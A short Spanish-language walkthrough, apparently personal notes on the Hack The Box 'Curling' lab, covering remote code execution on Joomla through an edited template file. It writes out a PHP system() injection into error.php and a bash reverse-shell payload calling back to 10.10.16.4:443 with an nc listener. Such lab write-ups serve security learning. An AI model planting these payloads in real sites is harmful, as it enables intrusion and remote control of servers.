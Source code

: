 ### Enumeracion
[Articulo que explica como sacar una revershell con joomla](https://www.hackingarticles.in/joomla-reverse-shell/)
Vamos a ir a la parte de templates, 
![[Curling8.png]]

Vamos a seleccionar la parte de templates que esta a la izquierda, y despues vamos a elegir cualquiera en mi caso uso el de beez3
![[Curling9.png]]
Ahora vamos a modificar en mi caso el archivo error.php y le vamos a inyectar este comando. Y guardamos los cambios
```
<?php system("whoami");?>
```
![[Curling10.png]]
Ahora cuando entremos al link
http://10.10.10.150/templates/beez3/error.php nos tendria que aparecer la respuesta del comando whoami
![[Curling11.png]]

### Explotacion

Como nos responde que usuarios somos, ya sabemos que hay un RCE, y vamos a intentar mandarnos una [[Reverse shell]]

 ```php
 <?php system("bash -c 'bash -i >& /dev/tcp/10.10.16.4/443 0>&1'");?>
```
Mientras nos ponemos en escucha con [[nc -nlvp 443]]
![[Curling12.png]]
Y listo ya ganamos acceso a la maquina
![[Curling13.png]]
